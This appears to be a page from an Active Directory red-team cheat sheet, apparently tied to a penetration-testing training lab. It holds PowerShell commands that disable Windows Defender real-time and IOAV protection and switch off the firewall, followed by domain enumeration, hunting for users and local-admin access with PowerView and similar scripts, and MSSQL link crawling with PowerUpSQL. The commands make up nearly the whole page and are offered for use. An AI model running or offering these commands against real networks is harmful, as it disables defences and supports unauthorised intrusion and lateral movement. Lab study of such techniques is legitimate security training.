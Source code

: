 ```powershell
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
--- Verificar
Get-MpPreference | Select-Object DisableIOAVProtection, DisableRealtimeMonitoring
```

### Turn off Firewall (BAD OPSEC)

```powershell
netsh advfirewall set allprofiles state off
--- Verificar
netsh advfirewall show allprofiles
```

## ![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&duration=6000&pause=1000&width=435&lines=Initial+Enumeration)

```powershell
RunWithRegistryNonAdmin.bat
Import-Module Microsoft.ActiveDirectory.Management.dll
Get-ADUser -Filter * -Properties *| select Samaccountname,Description
Get-ADComputer -Filter * | Select-Object -ExpandProperty DNSHostName
Get-ADGroup -Filter * | Select-Object -ExpandProperty Name 
(Get-ADForest).Domains | %{Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)' -Server $_}   
Get-ADTrust -Filter '(intraForest -ne $True) -and(ForestTransitive -ne $True)'
```

### User Hunting

```powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local
--
. .\Invoke-SessionHunter.ps1
Invoke-SessionHunter -NoPortScan
--
. .\PowerView.ps1
#Use samaccountname
Find-DomainUserLocation -verbose
Find-DomainUserLocation -userGroupIdentity "RDPUsers"
```

### MSSQL

```powershell
Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.psd1
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose
```
